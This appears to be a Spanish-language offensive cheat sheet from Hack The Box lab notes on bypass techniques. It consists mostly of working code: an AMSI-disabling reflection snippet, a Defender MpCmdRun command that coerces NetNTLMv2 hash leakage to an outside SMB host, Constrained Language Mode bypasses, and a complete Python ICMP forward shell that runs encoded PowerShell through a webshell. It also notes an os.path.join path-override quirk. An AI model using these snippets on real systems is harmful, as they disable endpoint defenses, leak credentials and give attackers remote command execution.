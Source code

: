 # Bypassing

## AMSI

### Automatización de WinRM

```null
*Evil-WinRM* PS C:\Users\melanie\Desktop> Bypass-4MSI

Info: Patching 4MSI, please be patient...

[+] Success!
```

### Corromper tarea (Condición de carrera)

```null
$w = 'System.Management.Automation.A';$c = 'si';$m = 'Utils'
$assembly = [Ref].Assembly.GetType(('{0}m{1}{2}' -f $w,$c,$m))
$field = $assembly.GetField(('am{0}InitFailed' -f $c),'NonPublic,Static')
$field.SetValue($null,$true)
```

## Obtención de hash NetNTLMv2 con Windows Defender

```null
*Evil-WinRM* PS C:\Program Files\Windows Defender> ./MpCmdRun.exe -Scan -ScanType 3 -File \\10.10.16.6\test
```

## CLM

### Detección

```null
[10.10.10.210]: PS> $ExecutionContext.SessionState.LanguageMode                                                       
ConstrainedLanguage
```

### PSSessions

```null
PS /home/rubbx/Desktop/HTB/Machines/Reel2> Enter-PSSession -ComputerName 10.10.10.210 -Credential $Cred -Authentication Negotiate
```

### Ejecución de comandos con funciones

```null
[10.10.10.210]: PS> function bypassCLM { whoami }
[10.10.10.210]: PS>bypassCLM
htb\k.svensson
```

## ICMP Forward Shell

```python
#!/usr/bin/env python3

import base64
import requests
import threading
from cmd import Cmd
from scapy.all import *
from urllib.parse import quote


class Term(Cmd):

    prompt = "[~] - "
    cmd_payload = """$cmd = '{cmd}'; $step=1000; $ping = New-Object System.Net.NetworkInformation.Ping; $opts = New-Object System.Net.NetworkInformation.PingOptions; $opts.DontFragment = $true; $res=(iex -command $cmd|out-string); $data = [System.Text.Encoding]::ASCII.GetBytes($res); $i=0; while($i -lt $data.length)"""


    def __init__(self):
        super().__init__()
        thread = threading.Thread(target=self.listen_thread, args=())
        thread.daemon = True
        thread.start()


    def listen_thread(self):
        sniff(filter="icmp and src 10.10.10.57", iface="tun0", prn=self.handle_icmp)


    def handle_icmp(self, pkt):
        print(pkt[Raw].load.decode(), end="")
        sys.stdout.flush()


    def default(self, args):
        cmd = self.cmd_payload.format(cmd=args)
        enccmd = quote(quote(base64.b64encode(cmd.encode('utf-16le')).decode()))
        requests.get(f'http://10.10.10.57:62696/test.asp?u=http://127.0.0.1:80/cmd.aspx?xcmd=powershell+-enc+{enccmd}')


term = Term()
try:
    term.cmdloop()
except KeyboardInterrupt:
    print()
```

## Python

Es posible eliminar la ruta que se obtiene de la ruta actual con ```getcwd()``` pasándole como argumento un path pero con una barra al principio

```null
python3
Python 3.11.2 (main, Feb 12 2023, 00:48:52) [GCC 12.2.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> import os
>>> os.path.join(os.getcwd(), "public", "uploads", "test")
'/home/rubbx/Desktop/HTB/Machines/OpenSource/source/app/app/public/uploads/test'
```

En este ejemplo con la cadena ```/test```

```null
>>> os.path.join(os.getcwd(), "public", "uploads", "/test")
'/test'
```

